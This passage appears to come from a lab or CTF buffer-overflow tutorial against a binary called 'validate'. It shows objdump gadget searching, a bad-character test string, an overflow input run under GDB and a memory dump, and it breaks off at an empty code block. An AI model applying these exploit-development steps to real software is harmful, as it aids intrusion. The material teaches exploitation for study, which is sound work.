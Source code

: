 This means that we need to first search for a call or jump to EAX within the validate binary using `objdump`. Objdump will translate the hex bytes into CPU instructions an we can simply gre for the call or jump command like so,
```
root@attacker-machine:~# objdump -d validate | egrep -i '(jmp|call).*eax'
 8048468:	ff 14 85 14 9f 04 08 	call   *0x8049f14(,%eax,4)
 80484af:	ff d0                	call   *%eax
 804862b:	ff d0                	call   *%eax
```
Great, we have a `call` Assembly instruction that we can use at address `0x80484af`. 
## Search for Bad Characters
To search for bad characters for the binary's input, use GNU Debugger again. But first, we need to create a new input string. We take our current string, `python -c 'print "A" * 116 + "ABCD" + "B" * (200-116-4)'` and remove the 'B' bytes and replace them with the new string that we create with the following command,
```
root@attacker-machine:~# for num in $(seq 1 255); do printf "\\\x%02x" $num; done
```
This creates the string, 
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Run GNU Debugger with `validate` and pass along the input as,
```
run $(python -c "print 'A' * 116 + 'ABCD' + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'")
```
Next, issue the following GDB command to analyze the registers. 
```
gdb-peda$ x/100x $eax
0xffffd0c8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd0d8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd0e8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd0f8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd108:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd118:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd128:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd138:	0x41414141	0x44434241	0x04030201	0x08070605
0xffffd148:	0x00000000	0xf7e38a4b	0xf7fbd3dc	0x08048204
```
Look for our new bytes, that will be `01,02,03,04,05,...ff` in hexadecimal. Remember, because of littel-endian, they will bre represented in opposite order in each address location. For instance, `0x01,0x02,0x03,0x04` will be `0x04030201`. Once we find our string, search to the end, `ff` looking for NULL memory address values. If found, that meas that we have a bad character. For instance, above we have,
```
```